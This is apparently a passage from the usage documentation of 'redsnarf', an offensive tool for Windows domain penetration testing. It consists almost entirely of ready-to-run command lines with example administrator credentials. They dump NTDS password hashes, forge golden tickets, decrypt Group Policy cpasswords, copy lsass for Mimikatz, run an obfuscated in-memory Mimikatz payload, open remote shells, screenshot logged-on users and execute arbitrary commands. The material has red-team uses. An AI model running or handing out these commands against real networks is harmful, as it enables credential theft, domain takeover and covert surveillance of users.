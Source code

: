 Retrieve Hashes using drsuapi method (Quickest)  
This method supports an optional flag of -q y which will query LDAP and output whether accounts are live or disabled
**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -hI y (-hQ y)**

Retrieve Hashes using NTDSUtil  
This method supports an optional flag of -q y which will query LDAP and output whether accounts are live or disabled
**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -hN y (-hQ y)**

Golden Ticket Generation  
**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -hT y**

Information Gathering
=======================

Copy the Policies and Scripts folder from a Domain Controller and parse for password and administrator  
**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -uP y**

Decrypt Cpassword  
**./redsnarf.py -uG cpassword**

Find User - Live  
**/redsnarf.py -H range=10.0.0.1/24 -u administrator -p Password01 -d yourdomain.com -eL user.name**

Find User - Offline (searches pre downloaded information)  
**/redsnarf.py -H range=10.0.0.1/24 -u administrator -p Password01 -d yourdomain.com -eO user.name**

Display NT AUTHORITY\SYSTEM Tasklist  
**/redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -eT y**  

Screenshot the Desktop of a Remote Logged on Active User  
**/redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -eS y**  

Misc
=======================

Start a Shell on a machine using local administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d . -uD y**

Start a Shell on a machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -uD y**

Retrieve a copy of lsass for offline parsing with Mimikatz on a machine using local administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d . -hL y**

Run stealth mimikatz, this option fires up a web-server to serve a powershell script, this is obfusctaed and encoded machine side, data doesnt touch disk - creds are grepped for in an easy to read style and echoed back to screen.  
**./redsnarf.py -H ip=192.168.198.162 -u administrator -p Password01 -cS y -hR y**

Run Custom Command  
Example 1  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -uX 'net user'**
